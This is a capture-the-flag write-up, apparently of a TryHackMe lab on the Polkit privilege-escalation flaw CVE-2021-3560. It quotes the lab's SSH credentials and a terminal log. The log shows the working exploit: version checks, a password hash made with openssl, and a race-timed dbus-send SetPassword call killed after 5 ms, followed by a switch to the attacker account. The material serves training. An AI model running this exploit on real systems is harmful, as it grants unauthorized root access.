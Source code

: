 >>You've seen the theory, so now it's time to try for yourself!

>>If you would like to SSH into the target machine, the credentials are:
```
Username: tryhackme
Password: TryHackMe123!
```
>>Otherwise please feel free to use the in-browser access on the right hand side of the screen. Bear in mind that the AttackBox can be deployed in tandem with the target machine.

>>Perform the CVE-2021-3560 exploit and get the flag from /root/root.txt!
>>Remember to submit the flag you find on the box to https://flag.muir.land/ in order to receive the final flag to submit below.

```bash
┌[rawbot@pwnbox]─[/home/rawbot]
└╼[★]$ ssh tryhackme@10.10.93.22 
tryhackme@10.10.93.22's password: 


         _____           _   _            _    __  __      
        |_   _| __ _   _| | | | __ _  ___| | _|  \/  | ___ 
          | || '__| | | | |_| |/ _` |/ __| |/ / |\/| |/ _ \
          | || |  | |_| |  _  | (_| | (__|   <| |  | |  __/
          |_||_|   \__, |_| |_|\__,_|\___|_|\_\_|  |_|\___|
                   |___/                                   



Last login: Sun Jun 13 13:06:56 2021 from 10.11.12.223
tryhackme@polkit:~$ 
tryhackme@polkit:~$ apt list --installed | grep policykit-1

WARNING: apt does not have a stable CLI interface. Use with caution in scripts.

policykit-1/focal,now 0.105-26ubuntu1 amd64 [installed,upgradable to: 0.105-26ubuntu1.1]

tryhackme@polkit:~$ time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required

real    0m0.012s
user    0m0.002s
sys     0m0.000s

tryhackme@polkit:~$ openssl passwd -6 Expl01ted
$6$WrT2hCZMxufGQUGF$enKk6xODZXavAGxHezULoRkQxA0hVPJrFt4INol8DxVmXjbPuyOV8XaEA19RQapvB9KYMROdJ8stneHO3i9UZ.

tryhackme@polkit:~$ dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$WrT2hCZMxufGQUGF$enKk6xODZXavAGxHezULoRkQxA0hVPJrFt4INol8DxVmXjbPuyOV8XaEA19RQapvB9KYMROdJ8stneHO3i9UZ.' string:'Ask the pentester' & sleep 0.005s; kill $!
[1] 1261
tryhackme@polkit:~$ su attacker
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

attacker@polkit:/home/tryhackme$ sudo -l
[sudo] password for attacker: 
Matching Defaults entries for attacker on polkit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
```